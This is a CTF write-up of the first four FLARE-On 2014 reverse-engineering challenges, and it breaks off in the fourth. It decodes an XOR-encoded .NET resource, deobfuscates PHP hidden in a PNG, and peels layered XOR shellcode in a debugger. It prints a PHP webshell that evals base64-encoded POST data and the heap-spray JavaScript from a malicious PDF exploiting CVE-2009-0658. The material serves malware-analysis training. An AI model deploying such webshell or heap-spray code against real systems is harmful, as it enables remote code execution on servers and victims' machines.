- **Category: Malware Analysis and Reverse Engineering**
- **Difficulty: Easy*/Medium/Hard*
- File:- [2014_FLAREOn_Challenges.zip](/uploads/Flare-On_2014/2014_FLAREOn_Challenges.zip)

# Challenge 1 - Bob Doge

## Stage 1 Extracting CAB File
### Initial Triage

- File Type: PE32+ executable for MS Windows 5.02 (GUI), x86-64, 6 sections
- Size: 279 KB
- SHA256: f8aac4d0cccabd11d7b10d63dc2acc451ea832077650971d3c66834861162981

### Basic Static Analysis:

- Detect it Easy (Die) show that this file is **self-extracted CAB/SFX style packing**, where the executable includes a compressed Microsoft Cabinet file (CAB) and extracts/executes it at runtime and it is just a **wrapper/loader**.
- The `.rsrc` section is compressed, which is why the tool flags **high entropy**, classic sign of packing or encryption.
- Compression algorithm used inside the CAB is **LZX** (as shown), which is common in Microsoft CAB archives.
- So we have to first extract the actual exe from this and analyze it,





- We can extract it using [cabextract](https://www.cabextract.org.uk/) tool, and it will written in `Challenge1.exe` file,

```bash
┌──(b14cky㉿DESKTOP-VRSQRAJ)-[/]
└─$ cabextract C1.exe.defused
Extracting cabinet: C1.exe.defused
  extracting Challenge1.exe

All done, no errors.
```

## Stage 2 Analysis of .NET Sample

### Initial Triage

- File Type: PE32 executable for MS Windows 4.00 (GUI), Intel i386 Mono/.Net assembly, 3 sections
- Size: 118 KB
- SHA256: c1b55c829a8420fa41e7a31344b6427045cea288458fe1c0f32cae47b2e812f2
### Basic Static Analysis:

- Detect it Easy (Die) show that this file is `.NET` binary written in `C#` using visual studio.
- Also `.text` is packed as per die because it show high entropy in it. 
 




- We know that this code compiles to **Microsoft Intermediate Language (MSIL or IL)**.
- IL is a **human-readable, high-level assembly-like language**, not raw CPU instructions.
- So we can read it using tools such as `dnSpy`, `Dotpeek` etc.
- here is the example of IL,

```asm
.method public hidebysig static void Main() cil managed
{
    .entrypoint
    ldstr "Hello, world!"
    call void [mscorlib]System.Console::WriteLine(string)
    ret
}
```

### Code Analysis


- I used `dnSpy` for this analysis,
- In `Resources` i found something phishy which is `rev_challenge_1.dat_secret.encode` so i saved it and it looks like encrypted data,
- Also some cool memes 😂,





- Now Let's dive into actual code, so typically we start with `main` function in `Program` section,
- This code just **starts a Windows Forms GUI app and opens Form1** so `Form1` is the one we had to go,



- Immediately we see one function `btnDecode_Click` which do some kind of math or crypto stuff, and it is loading that `rev_challenge_1.dat_secret.encode` file as input.



- At first glance, honestly, I can't understand this code, so I take help from our friend GPT to explain it to me, and here is what I understand,

```asm
0xa1 0xb5 0x44        (original)
0x1a 0x5b 0x44        (swap hex digits)
(0x1a ^ 0x29) (0x5b ^ 0x29) (0x44 ^ 0x29) → 0x33 0x72 0x6d
```

### Flag Extraction

- So i load this input file into `CyberChef` and apply all the necessary filters and features to get decrypted result and here it is,



- Here is out flag,

```yml
 3rmahg3rd.b0b.d0ge@flare-on.com
```

- Here is recipe of this,

```json
[
  { "op": "To Hex",
    "args": ["Space", 0] },
  { "op": "Remove whitespace",
    "args": [true, true, true, true, true, false] },
  { "op": "Find / Replace",
    "args": [{ "option": "Regex", "string": "([0-9a-fA-F])([0-9a-fA-F])" }, "$2$1", true, false, true, false] },
  { "op": "Remove whitespace",
    "args": [true, true, true, true, true, false] },
  { "op": "From Hex",
    "args": ["Auto"] },
  { "op": "XOR",
    "args": [{ "option": "Decimal", "string": "41" }, "Standard", false] }
]
```

- Here is the similar py script for doing this same task,

```py
#!/usr/bin/env python3
"""
Replicates CyberChef operations:
1. From Hexdump
2. To Hex (space delimited)
3. Remove whitespace
4. Find/Replace (swap hex digit pairs)
5. Remove whitespace
6. From Hex
7. XOR with 41 (decimal)
"""

import re
import sys

def from_hexdump(data):
    """Extract hex bytes from hexdump format"""
    lines = data.strip().split('\n')
    hex_bytes = []
    
    for line in lines:
        # Remove offset and ASCII representation, keep only hex bytes
        parts = line.split()
        for part in parts:
            # Skip offset (contains colon) and non-hex parts
            if ':' in part or not all(c in '0123456789abcdefABCDEF' for c in part):
                continue
            # Add hex bytes (typically 2 chars each)
            for i in range(0, len(part), 2):
                if i + 1 < len(part):
                    hex_bytes.append(part[i:i+2])
    
    return bytes.fromhex(''.join(hex_bytes))

def to_hex_space(data):
    """Convert bytes to space-separated hex"""
    return ' '.join(f'{b:02x}' for b in data)

def remove_whitespace(text):
    """Remove all whitespace"""
    return re.sub(r'\s+', '', text)

def swap_hex_pairs(text):
    """Swap each pair of hex digits: AB -> BA"""
    return re.sub(r'([0-9a-fA-F])([0-9a-fA-F])', r'\2\1', text)

def from_hex(hex_string):
    """Convert hex string to bytes"""
    return bytes.fromhex(hex_string)

def xor_decrypt(data, key):
    """XOR each byte with the key"""
    return bytes(b ^ key for b in data)

def main():
    input_file = 'rev_challenge_1.dat_secret.encode'
    
    try:
        # Read input file in binary mode
        with open(input_file, 'rb') as f:
            data = f.read()
        
        print(f"[+] Reading from {input_file}")
        
        # Step 1: From Hexdump - skip this step, data is already binary
        print("[+] Step 1: Using binary data directly")
        step1 = data
        
        # Step 2: To Hex (space delimited)
        print("[+] Step 2: To Hex (space delimited)")
        step2 = to_hex_space(step1)
        
        # Step 3: Remove whitespace
        print("[+] Step 3: Remove whitespace")
        step3 = remove_whitespace(step2)
        
        # Step 4: Find/Replace - swap hex digit pairs
        print("[+] Step 4: Swap hex digit pairs")
        step4 = swap_hex_pairs(step3)
        
        # Step 5: Remove whitespace (again)
        print("[+] Step 5: Remove whitespace")
        step5 = remove_whitespace(step4)
        
        # Step 6: From Hex
        print("[+] Step 6: From Hex")
        step6 = from_hex(step5)
        
        # Step 7: XOR with 41 (decimal)
        print("[+] Step 7: XOR with 41")
        result = xor_decrypt(step6, 41)
        
        # Output result
        print("\n" + "="*60)
        print("DECODED OUTPUT:")
        print("="*60)
        try:
            print(result.decode('utf-8', errors='replace'))
        except:
            print(result)
        print("="*60)
        
        # Save to file
        output_file = 'decoded_output.txt'
        with open(output_file, 'wb') as f:
            f.write(result)
        print(f"\n[+] Output saved to {output_file}")
        
    except FileNotFoundError:
        print(f"[!] Error: File '{input_file}' not found")
        print(f"[!] Please ensure the file exists in the current directory")
        sys.exit(1)
    except Exception as e:
        print(f"[!] Error: {e}")
        import traceback
        traceback.print_exc()
        sys.exit(1)

if __name__ == '__main__':
    main()
```

# Challenge 2: Javascrap

## Stage 0 Character Table Construction

### Initial Triage

- Challenge Type: Reverse-Engineering / Web / Obfuscated Code
- Files Provided:
    - `home.html`
	    - File Type: home.html: HTML document, Unicode text, UTF-8 text, with very long lines (1428), with CRLF line terminators
		- Size: 8.17 KB
		- SHA256: d1b235e49336c2e510100bd3ffa3113d9c757ffb4829e9564597dbab8338b710
    - `img/flare-on.png` (PNG image) 
	    - File Type: img/flare-on.png: PNG image data, 400 x 79, 8-bit/color RGBA, non-interlaced
		- Size: 9.33 KB
		- SHA256: 87528d13f40b51b6de90124fb92bcbc38a54e5241cd7ef969208c0707ed893dd

### Basic Static Analysis:

- The PNG is being **included as PHP code** via an `include` in the HTML page: i.e., the challenge hides a PHP script inside what looks like an image.



- Performing strings on `flare-on.png` reveals appended PHP source code instead of pure image data.


- The appended PHP contains two large arrays: `$terms` and `$order`, and a reconstruction loop that builds a second PHP script dynamically. 

## Stage 1: Obfuscation Decoding

### 1: Character Table Reconstruction

The embedded PHP begins:



```php
$terms = array("M","Z","]","p",...,"|");
$order = array(59,71,73,13,...,47);
$do_me="";
for($i=0;$i<count($order);$i++){
    $do_me=$do_me.$terms[$order[$i]];
}
print($do_me);
```

- `$terms` is a **custom character lookup table** - each entry is a single character.
- `$order` is a list of integers, each an index into `$terms`. 
- The loop concatenates `$terms[$order[i]]` to form a complete PHP script string in `$do_me`. 
- Instead of running `eval()` immediately, you can replace it with `print` to **dump the generated code** for analysis. 

## Stage 2: Second-Layer Decoding

After reconstructing the inner PHP, the output looks like:


```php
$_  = 'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlc ...';
$__ = 'JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';
$___ = "\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";
eval($___($__));
```

- `$_` and `$__` are **Base64-encoded** strings. 
- `$___` is obfuscated with **hex escape sequences** representing the string `base64_decode`. 
- `eval($___($__))` resolves to:

```php
$code = base64_decode($_);
eval($code);
```

This decodes the next stage of the script and executes it. 

## Stage 3: Escaped Payload Interpretation



The inner decoded PHP is:

```php
if (isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F..."])){
    eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104..."]));
}
```

- The `$_POST` key names are obfuscated using a **mix of octal (`\NNN`) and hex (`\xNN`) escapes**. 
- To understand the actual identifier, all escape sequences must be converted into ASCII. 

## Stage 4: Normalization and Flag Extraction



The decoded sequence:

```
a11DOTthatDOTjava5crapATflareDASHonDOTcom
```

comes from interpreting those escape sequences as numbers and converting them to characters.   
Replace placeholder tokens:

- `DOT` → `.`
- `AT` → `@`
- `DASH` → `-`

- Final flag:

```yml
a11.that.java5crap@flare-on.com
```

## Final Behavior

The decoded PHP callback becomes:

```php
if (isset($_POST["a11.that.java5crap@flare-on.com"])) {
    eval(base64_decode($_POST["a11.that.java5crap@flare-on.com"]));
}
```

- This is a **simple PHP webshell** that executes Base64-encoded PHP from an HTTP POST field if sent under the correct key. 

# Challenge 3: 

## Stage 1 Extracting Shellcode from Wrapper EXE 
### Initial Triage

- File Type: PE32 executable (console) Intel 80386 (stripped to external PDB), for MS Windows
- Size: 7 KB
- SHA256: 4ab2023b2f34c8c49ffd15a051b46b6be13cb84775142ec85403a08c0d846c72

### Basic Static Analysis

- Detect it Easy (Die) show that this file is **C Compiled File**, and `Tiny C` compiler was used to compile it, also it can be stripped as per file command results.
- In Entropy section we can see that there is only 2 section which is `.text` and `.data`, 





- PEStudio Shows that most of data is on `.text` section and raw-size is `6144 bytes`,



### Advance Static Analysis 

- I have used IDA Free to do disassemble the exe file,
	- In that i opened `start` function which has some interesting functions and particularly this `sub_401000`,



- In this `sub_401000` function, there are multiple bytes which are being pushed into stack and at the end it being called using this instruction,   



```asm
.text:00401000 ; int __cdecl sub_401000(_DWORD, _DWORD, _DWORD)
.text:00401000 sub_401000      proc near               ; CODE XREF: start+6A↓p
.text:00401000
.text:00401000 var_201         = byte ptr -201h
.text:00401000 var_200         = byte ptr -200h
...
.text:00401000                 push    ebp
.text:00401001                 mov     ebp, esp
.text:00401003                 sub     esp, 204h
.text:00401009                 nop
.text:0040100A                 mov     eax, 0E8h
.text:0040100F                 mov     [ebp+var_201], al
.text:00401015                 mov     eax, 0
.text:0040101A                 mov     [ebp+var_200], al
...
.text:00402492                 mov     [ebp+var_1], al
.text:00402495                 lea     eax, [ebp+var_201]
.text:0040249B                 call    eax
```

- It means it means it can `shellcode` because `0E8h` is being pushed, it means `call target`, 
- but why this importent,
	- Shellcode has a huge problem: **It does NOT know its own address**
		- it can be placed anywhere in memory
		- no imports
		- no fixed base
		- no PE headers
### Advanced Dynamic Analysis

- So to extract the shellcode we will use `x32dbg` because we have 32 bit binary and put a breakpoint in this particular `0040249B` offset which is `call eax` so we will dump `EAX` into memory and carve it and move further.
- But first we land in `entry point` of program,

```asm
004024C0 | 55                       | push ebp                                
004024C1 | 89E5                     | mov ebp,esp                             
004024C3 | 81EC 2C000000            | sub esp,2C                              
```



- So we can go to that location using `CTRL + G` shortcut,



- We will put breakpoint using using `F2` in that instruction,

```asm
00402495 | 8D85 FFFDFFFF            | lea eax,dword ptr ss:[ebp-201]          
0040249B | FFD0                     | call eax                                
0040249D | B8 00000000              | mov eax,0                               
```



- So now we will run till this breakpoint and dump the `EAX` content inside the dump windows,
- And again we can see that there is `E8 00 00..` format which means it will be shellcode so we can dump this using this command,

```
savedata "C:\Users\Asus\Desktop\shellcode.bin", EAX, 0x4000
```





- So it will be written in `shellcode.bin`,

## Stage 2 Analyzing Shellcode 
### Initial Triage

- File Type: data
- Size: 16 KB
- SHA256: 7d60f98eaa49863a604f75425ced94f86faf2eb9d83e0c1ce7490c852930f44e
### Advance Static Analysis

- To get the hex code we can use `HxD` tool and copy from there and I used `cutter` for this analysis because it gives graph view, so paste it into that `cutter`,



- I remove some bytes which are not that important, after  `0xC995`,

```
E8 00 00 00 00 8B 34 24 83 C6 1C B9 DF 01 00 00 83 F9 00 74 07 80 36 66 46 49 EB F4 E9 10 00 00 00 07 08 02 46 15 09 46 0F 12 46 04 03 01 0F 08 15 0E 13 15 66 66 0E 15 07 13 14 0E 08 09 16 07 EF 85 8E 66 66 66 66 ED 52 42 E5 A0 4B EF 97 E7 A7 EA 67 66 66 EF BE E5 A6 6C 5F BE 13 63 EF 85 E5 A5 62 5F A8 12 6E EC 75 56 70 25 20 8D 8D 8F 57 66 66 66 6F 6C 62 27 67 62 72 70 6A 35 7C 66 36 60 70 73 33 7A 7C 65 2F 6C 72 27 66 68 33 70 72 78 66 29 7E 66 67 63 33 7D 7D 35 7C 61 73 27 65 66 7A 7A 67 FD 08 09 16 07 9E 33 37 97 D5 0B B1 31 17 07 15 84 EA 14 6D 1B 89 3F 74 48 79 40 90 D2 17 96 E1 0D FD EA FA C8 7F 53 71 5A E9 CE 74 48 79 40 E1 CB EF C2 02 34 45 61 48 20 5F 3C 07 3F 0C 23 1B 3B 0D 28 05 7B 1E 3E 02 2F 09 60 1E 20 10 3E 16 7A ED AD 9C 48 79 40 71 D0 4B 76 E9 80 57 C9 86 C9 BE 85 71 5A 64 C7 AC CB B9 58 48 83 0A 57 E3 A5 F9 83 73 71 B1 27 79 D0 77 7E 62 0B 3F AB 9A B2 62 52 6A 46 66 58 73 00 38 15 39 00 21 5F 25 15 24 1E 32 1E 1F 5B 70 42 7A 1A 7B 18 7E 10 75 15 60 55 3A 55 0D 60 78 17 61 4D 7C 5A 7A 46 26 40 65 0D 31 0B 6F 4B 72 09 71 52 D8 D1 E3 72 0B 2A 17 A4 30 18 DC FA 2F B6 E7 F0 94 06 16 2D 16 F2 CE A2 8A 3D 37 B8 63 21 9B DF 81 ED 40 18 CC 59 03 F5 43 54 06 7C 4B 8D F8 63 E4 F2 5A 76 FA 4A E6 53 62 90 66 13 FF 0C 60 88 4D 38 FF 5E F1 77 7B 7D 40 E1 F0 8E 7B 7C 5B D4 30 39 2A 9E F6 38 49 1F F0 28 99 95 4B F2 61 DB 62 D0 56 48 05 22 12 29 8A D2 45 49 20 75 0D 3F 48 AC F3 29 52 07 A3 34 BB 7F 05 98 10 58 72 C8 E6 67 9D E0 75 88 1B 66 55 73 76 24 1C 7F 19 0D 46 2F 25 35 14 8D 80 B2 2E 4B 01 80 32 1C 95 C9 00
```



- It is loop that doing some stuff,
	- The CALL instruction is not for calling a function 
	- It is used to steal the current address so the code can decrypt and execute itself.
	- So it means `call 5` will pushes `0x00000005` onto stack jumps to `0x00000005` now stack has `[rsp] = address_of_shellcode` then `mov esi, [rsp]` will push it into `esi` which means `0x05 + 0x1C = 0x21`,
- seg000:00000021 to seg000:00000030 is encrypted block,



```asm
0x00000000      call    5          ;  fcn.00000000(void)
0x00000005      mov     esi, dword [rsp]
0x00000008      add     esi, 0x1c
0x0000000b      mov     ecx, 0x1df
0x00000010      cmp     ecx, 0
```

- Decryption block with key `0x66`

```asm
0x00000015  xor byte [rsi], 0x66
0x00000018  jmp 0x10
```

- So here is the whole summarized flow, 

```asm
call → pop → add offset → xor loop (key 0x66) → jump
```



- Possible Pseudocode,

```c
base = get_rip();
payload = base + 0x1c;

for (i = 0; i < 0x1df; i++) {
    payload[i] ^= 0x66;
}

jump_to(payload);
```

- There is one block which is encrypted so i used, `cyberchef` to decrypt it with key `0x66`





- Decrypted String 1,

```
and so it begins
```

- But you can see how tedious is this task in static analysis so to do this easiness we can use dynamic method.
### Advanced Dynamic Analysis

- Again, i can use `x32dgb` for this task,
#### Layer 1 XORed Encryption

- This loop is doing decryption of encrypted text

```asm
0019FD43 | 83F9 00                  | cmp ecx,0                               
0019FD46 | 74 07                    | je 19FD4F
0019FD48 | 8036 66                  | xor byte ptr ds:[esi],66               
0019FD4B | 46                       | inc esi                                 
0019FD4C | 49                       | dec ecx     
0019FD4D | EB F4                    | jmp 19FD43                            
```



```
0019FD53 00 61 6E 64 20 73 6F 20 69 74 20 62 65 67 69 6E  .and so it begin  
0019FD63 73 68 75 73 00 00 68 73 61 75 72 68 6E 6F 70 61  shus..hsaurhnopa  
```

- Decrypted String 1,

```yml
so it begins
```

#### Layer 2 XORed Encryption

- for next layer just step through the instructions by doing `step over`,
- This instructions are loading layer 2 decryption key in stack which is 

```asm
0019FD69 | 68 73617572              | push 72756173                           
0019FD6E | 68 6E6F7061              | push 61706F6E                          
0019FD73 | 89E3                     | mov ebx,esp                             
```

- Here is actual key in hex `6E 6F 70 61 72 73 61 75 72 75 73` which is `nopasaurus`,





- Now the actual loop begins and decryption starts using this key `nopasaurus`,

```asm
0019FD8D | 39D8                     | cmp eax,ebx                             
0019FD8F | 75 05                    | jne 19FD96                              
0019FD91 | 89E3                     | mov ebx,esp                             
0019FD93 | 83C3 04                  | add ebx,4                               
0019FD96 | 39CE                     | cmp esi,ecx                             
0019FD98 | 74 08                    | je 19FDA2                               
0019FD9A | 8A13                     | mov dl,byte ptr ds:[ebx]                
0019FD9C | 3016                     | xor byte ptr ds:[esi],dl                
0019FD9E | 43                       | inc ebx                                 
0019FD9F | 46                       | inc esi                                
0019FDA0 | EB EB                    | jmp 19FD8D                             
```



```
0019FDA6 00 67 65 74 20 72 65 61 64 79 20 74 6F 20 67 65  .get ready to ge  
0019FDB6 74 20 6E 6F 70 27 65 64 20 73 6F 20 64 61 6D 6E  t nop'ed so damn  
0019FDC6 20 68 61 72 64 20 69 6E 20 74 68 65 20 70 61 69   hard in the pai  
0019FDD6 6E 74 E8 00 00 00 00 8B 34 24 83 C6 1E B9 38 01  ntè.....4$.Æ.¹8.  
```

- Decrypted String 2,

```yml
get ready to get nop'ed so damn hard in the paint
```

#### Layer 3 XORed Encryption

- This is where 3rd loop starts and decryption starts with hardcoded hex `0x624F6C47`,



```asm
0019FDE3 | B9 38010000              | mov ecx,138                             
0019FDE8 | 83F9 00                  | cmp ecx,0                               
0019FDEB | 7E 0E                    | jle 19FDFB                              
0019FDED | 8136 624F6C47            | xor dword ptr ds:[esi],476C4F62         
0019FDF3 | 83C6 04                  | add esi,4                               
0019FDF6 | 83E9 04                  | sub ecx,4                               
0019FDF9 | EB ED                    | jmp 19FDE8                              
```

- This wrote some gibberish in memory, 

```
0019FDF6 83 E9 04 EB ED 8D 80 00 00 00 00 8D 80 00 00 00  .é.ëí...........  
0019FE06 00 90 90 90 90 68 72 3F 21 3F 68 20 6F 76 65 68  .....hr?!?h oveh  
0019FE16 6D 6F 73 74 68 74 20 61 6C 68 69 73 20 69 68 6F  mostht alhis iho  
0019FE26 6D 67 20 89 E3 E8 00 00 00 00 8B 34 24 83 C6 2D  mg .ãè.....4$.Æ-  
```

- After spending some time i realize that it is actually strings which is being loaded next, 



```asm
0019FE0B | 68 723F213F              | push 3F213F72                           
0019FE10 | 68 206F7665              | push 65766F20                           
0019FE15 | 68 6D6F7374              | push 74736F6D                           
0019FE1A | 68 7420616C              | push 6C612074                           
0019FE1F | 68 69732069              | push 69207369                           
0019FE24 | 68 6F6D6720              | push 20676D6F                           
0019FE29 | 89E3                     | mov ebx,esp                             
```



- I take all hex convert it in `Big endian format` and arrange it in `FILO (First in Last out) order` because it is loaded in stack so here is the strings,
- Interestingly this same text used as key for next layer.

```yml
omg i sit almost over?!?
```



#### Layer 4 XORed Encryption

- Here is loop which start with previous string as key for decryption routine,

```asm
0019FE43 | 39D8                     | cmp eax,ebx                             
0019FE45 | 75 05                    | jne 19FE4C                              
0019FE47 | 89E3                     | mov ebx,esp                             
0019FE49 | 83C3 04                  | add ebx,4                               
0019FE4C | 39CE                     | cmp esi,ecx                             
0019FE4E | 74 08                    | je 19FE58                               
0019FE50 | 8A13                     | mov dl,byte ptr ds:[ebx]                
0019FE52 | 3016                     | xor byte ptr ds:[esi],dl                
0019FE54 | 43                       | inc ebx                                 
0019FE55 | 46                       | inc esi                                 
0019FE56 | EB EB                    | jmp 19FE43                              
```



```
0019FE56 EB EB E9 1D 00 00 00 73 75 63 68 2E 35 68 33 31  ëëé....such.5h31  
0019FE66 31 30 31 30 31 30 31 40 66 6C 61 72 65 2D 6F 6E  1010101@flare-on  
0019FE76 2E 63 6F 6D 68 6E 74 00 00 68 20 73 70 65 68 20  .comhnt..h speh   
```



- Here is Final Flag.... 😗

```yml
such.5h311010101@flare-on.com
```
# Challenge 4: 

## Stage 1 Malicious PDF Analysis

### Initial Triage

- File Type: APT9001.pdf: PDF document, version 1.5 
- Size: 21 KB
- SHA256: 15f3d918c4781749e3c9f470740485fa01d58fd0b003e2f0be171d80ce3b1c2c
### Basic Static Analysis

- Detect it Easy show nothing, 
- I do quick search its hash on VT this is the result,


- 27 out of 65 is pretty high so maybe there is some data which is embedded in PDF.



- So to check that i used `pdfinfo` tool to see metadata of pdf and here is what is got,
	- It has some js stuff so we can extract it using tool called, [peepdf](https://github.com/jesparza/peepdf).


### Advance Static Analysis

```bash
┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~]
└─$ python2 /opt/peepdf/peepdf.py -fil APT9001.pdf

Warning: PyV8 is not installed!!
Warning: pylibemu is not installed!!
Warning: Python Imaging Library (PIL) is not installed!!

File: APT9001.pdf
MD5: f2bf6b87b5ab15a1889bddbe0be0903f
SHA1: 58c93841ee644a5d2f5062bb755c6b9477ec6c0b
SHA256: 15f3d918c4781749e3c9f470740485fa01d58fd0b003e2f0be171d80ce3b1c2c
Size: 21284 bytes
Version: 1.5
Binary: True
Linearized: False
Encrypted: False
Updates: 0
Objects: 8
Streams: 2
URIs: 0
Comments: 0
Errors: 1

Version 0:
        Catalog: 1
        Info: No
        Objects (8): [1, 2, 3, 4, 5, 6, 7, 8]
                Errors (1): [8]
        Streams (2): [6, 8]
                Encoded (2): [6, 8]
                Decoding errors (1): [8]
        Objects with JS code (1): [6]
        Suspicious elements:
                /OpenAction (1): [1]
                /JS (1): [5]
                /JavaScript (1): [5]
                Adobe JBIG2Decode Heap Corruption (CVE-2009-0658): [8]
```

- I tried to extract the JS code using `extract js > extracted.js` which appeared to be successful.
- Also this is mind, **"Adobe JBIG2Decode Heap Corruption (CVE-2009-0658)"**

```js
PPDF> extract js

// peepdf comment: Javascript code located in object 6 (version 0)

var HdPN = "";
var zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf = "";
var IxTUQnOvHg = unescape("%u72f9%u4649%u1.....u5740%ud0ff");
var MPBPtdcBjTlpvyTYkSwgkrWhXL = "";

for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA = 128; EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA >= 0; --EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) MPBPtdcBjTlpvyTYkSwgkrWhXL += unescape("%ub32f%u3791");
ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv = MPBPtdcBjTlpvyTYkSwgkrWhXL + IxTUQnOvHg;
OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY = unescape("%ub32f%u3791");
fJWhwERSDZtaZXlhcREfhZjCCVqFAPS = 20;
fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA = fJWhwERSDZtaZXlhcREfhZjCCVqFAPS + ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv.length
while (OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length < fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA) OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY += OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY;
UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);
MOysyGgYplwyZzNdETHwkru = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length - fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);
while (MOysyGgYplwyZzNdETHwkru.length + fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA < 0x40000) MOysyGgYplwyZzNdETHwkru = MOysyGgYplwyZzNdETHwkru + MOysyGgYplwyZzNdETHwkru + UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb;
DPwxazRhwbQGu = new Array();
for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA = 0; EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA < 100; EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++) DPwxazRhwbQGu[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] = MOysyGgYplwyZzNdETHwkru + ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv;

for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA = 142; EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA >= 0; --EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += unescape("%ub550%u0166");
bGtvKT = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length + 20
while (zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length < bGtvKT) zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
Juphd = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, bGtvKT);
QCZabMzxQiD = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length - bGtvKT);
while (QCZabMzxQiD.length + bGtvKT < 0x40000) QCZabMzxQiD = QCZabMzxQiD + QCZabMzxQiD + Juphd;
FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE = new Array();
for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA = 0; EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA < 125; EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++) FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] = QCZabMzxQiD + zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
```

- But this looks obfuscated and very messy so I cleaned it,

```js
// peepdf comment: Javascript code located in object 6 (version 0)

var string_variable_2 = "";
var string_variable_4 = unescape("%u72f9%u4649%u152....5740%ud0ff");
var string_variable_1 = "";

for (counter_variable = 128; counter_variable >= 0; --counter_variable) string_variable_1 += unescape("%ub32f%u3791");
string_variable_3 = string_variable_1 + string_variable_4;
string_variable_5 = unescape("%ub32f%u3791");


while (string_variable_5.length < 790) string_variable_5 += string_variable_5;

substring1_of_str5 = string_variable_5.substring(0, 790);
substring2_of_str5 = string_variable_5.substring(0, string_variable_5.length - 790);

while (substring2_of_str5.length + 790 < 262144) substring2_of_str5 = substring2_of_str5 + substring2_of_str5 + substring1_of_str5;
another_array_variable = new Array();

for (counter_variable = 0; counter_variable < 100; counter_variable++) 
	another_array_variable[counter_variable] = substring2_of_str5 + string_variable_3;

for (counter_variable = 142; counter_variable >= 0; --counter_variable) 
	string_variable_2 += unescape("%ub550%u0166");

len_str2_plus20 = string_variable_2.length + 20

while (string_variable_2.length < len_str2_plus20) string_variable_2 += string_variable_2;

substring1_of_str2 = string_variable_2.substring(0, len_str2_plus20);
substring2_of_str2 = string_variable_2.substring(0, string_variable_2.length - len_str2_plus20);

while (substring2_of_str2.length + len_str2_plus20 < 262144) substring2_of_str2 = substring2_of_str2 + substring2_of_str2 + substring1_of_str2;
array_variable = new Array();

for (counter_variable = 0; counter_variable < 125; counter_variable++) array_variable[counter_variable] = substring2_of_str2 + string_variable_2;
```

- But you might be confused that how this code will executed because it is in PDF right?
- So here comes the interesting thing,
	- CVE-2009-0658 is a heap corruption vulnerability in Adobe Reader’s JBIG2Decode filter.  
	- A malformed JBIG2 image causes memory overwrite in native code.   
	- JavaScript heap spray is used beforehand to populate predictable heap memory with shellcode.  
	- When the corrupted pointer is dereferenced, execution jumps into the sprayed heap region, leading to arbitrary code execution.
	- One of the first **PDF + JS + native bug** chains
- So in short, if any user open this code in vulnerable Adobe Reader then this code will execute. 
#### Code Explanation  

- **It hides malicious code**
    - The long `%uXXXX%uXXXX` data is hidden machine code / shellcode.
    - `unescape()` converts it into real binary data.
- **It creates a lot of useless repeated data**
    - Repeated patterns are added again and again.
    - This fills large parts of computer memory.
- **It mixes junk + malicious code**
    - So memory looks like:
        `junk junk junk → malicious code`
- **It puts this data many times into memory**
    - Hundreds of copies are created.
    - This is called **heap spraying**.
- **Why it does this**
    - Later, when Adobe Reader crashes due to a bug,  
        the program may jump to a random memory address.
    - Because memory is full of attacker data,  
        it lands on the malicious code.

#### Carving Next Stage

